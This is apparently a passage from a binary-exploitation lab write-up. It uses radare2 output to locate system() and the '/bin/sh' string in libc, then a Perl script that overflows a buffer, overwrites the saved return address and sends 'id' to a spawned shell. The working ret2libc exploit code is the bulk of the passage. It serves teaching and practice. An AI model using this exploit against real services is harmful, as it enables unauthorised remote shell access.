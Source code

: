 ```perl
# [0x00019be0]> afl~printf
# <snip>
# 0x0004c940   16 216  -> 225  sym.register_printf_type
# 0x0004ca20  119 2048 -> 1983 sym.printf_size
# 0x0004d220    3 42           sym.printf_size_info
# 0x0004d250    1 35           sym._IO_fprintf
# 0x0004d280    1 52           sym._IO_printf
# 0x0004d2c0    1 56           sym.snprintf
# 0x0004d300    1 35           sym.sprintf
# <snip>
# [0x00019be0]> iz~/bin/sh
# vaddr=0x00160a24 paddr=0x00160a24 ordinal=633 sz=8 len=7 section=.rodata type=ascii string=/bin/sh
```

So now we have the actual libc address of the running instance despite randomized by ASLR as well as calculated the position of system() and the "/bin/sh" string in libc. Time to overflow the buffer and overwrite the stored eip with our address to system().

```perl

# my $buf = "AAABAACAADAAEAAFAAGAAHAAIAAJAAKAALAAMAANAAOAAPAAQAARAASAATAAUAAVAAWAAXAAYAAZAAaAAbAAcAAdAAeAAfAAgAAhAAiAAjAAkAAlAAmAAnAAoAApAAqAArAAsAAtAAuAAvAAwAAxAAyAAzAA1AA2AA3AA4AA5AA6AA7AA8AA9AA0ABBABCABDABEABFABGABHABIABJABKABLABMABNABOABPABQABRABSABTABUABVABWABXABYABZABaABbABcABdABeABfABgABhABiABjABkABlABmAB\n";
# results in: 
# --- SIGSEGV {si_signo=SIGSEGV, si_code=SEGV_MAPERR, si_addr=0x41416241} ---
# +++ killed by SIGSEGV (core dumped) +++
# Segmentation fault (core dumped)
# koffiedrinker@warzone:/data/exploitation/format_strings$ r2 -
#  -- r2 -- leading options since 2006
# [0x00000000]> wopO 0x41416241
# 80

my $buf = "A" x 80 . pack("V", $system_addr) . "BBBB" . pack("V", $binsh_addr) . "\n";

print "[+] Sending buffer ...\n";
$socket->send($buf, 5000);

# Receive line of text
$socket->recv($response, 5000);
print "[+] Response: $response\n";
```

After receiving the last print statement ("Goodbye..."), we should be interacting with system() now, so send the "id" command and get the output: 
```perl 
$buf = "id\n";
$socket->send($buf, 5000);

# Receive line of text
$socket->recv($response, 5000);
print "[+] Response: $response\n";

$socket->close();
```
